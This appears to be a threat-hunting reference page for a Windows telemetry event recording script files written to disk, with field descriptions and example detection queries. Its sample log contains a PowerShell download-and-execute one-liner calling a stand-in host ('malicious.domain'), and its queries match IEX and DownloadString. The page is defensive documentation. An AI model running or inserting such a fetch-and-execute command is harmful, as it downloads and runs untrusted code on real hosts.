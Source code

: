 ## ScriptFileWrittenInfo Table: Script File Content Event

### 1. Table Name
**ScriptFileWrittenInfo**

---

### 2. Table Usage
This event provides the full content of a script file that was written to disk on a Windows host. Attackers frequently drop malicious scripts (e.g., PowerShell, VBScript, Batch files) onto a system to download further malware, establish persistence, or perform reconnaissance. Capturing the full script content is invaluable for threat hunting and incident response, as it allows for immediate analysis of the script's intent and capabilities.

---

### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| TargetFileName | The full path and file name where the script was written. | Windows Only |
| FileFormatString | The detected format of the script file (e.g., "PowerShell", "VBScript", "Batch"). | Windows Only |
| ScriptContent | The full text content of the script that was written to the file. | Windows Only |

---

### 4. Sample Log Example

```json
{
  "TargetFileName": "C:\\Users\\admin\\AppData\\Local\\Temp\\update.ps1",
  "FileFormatString": "PowerShell",
  "ScriptContent": "IEX(New-Object Net.WebClient).DownloadString('[http://malicious.domain/payload.exe](http://malicious.domain/payload.exe)')"
}
```

---

### 5. Example Queries
```xql
// Find all instances of script files being written
event_simpleName=ScriptFileWrittenInfo

// Hunt for PowerShell scripts written to disk
event_simpleName=ScriptFileWrittenInfo FileFormatString="PowerShell"

// Find scripts written to a temporary or user-profile directory
event_simpleName=ScriptFileWrittenInfo TargetFileName="*\\Temp\\*" OR TargetFileName="*\\AppData\\*"

// Search for specific suspicious commands within the script content
event_simpleName=ScriptFileWrittenInfo ScriptContent="*DownloadString*" OR ScriptContent="*Invoke-Expression*" OR ScriptContent="*IEX*"

// Find potentially malicious VBScripts being dropped
event_simpleName=ScriptFileWrittenInfo TargetFileName="*.vbs" ScriptContent="*CreateObject*"
```
---

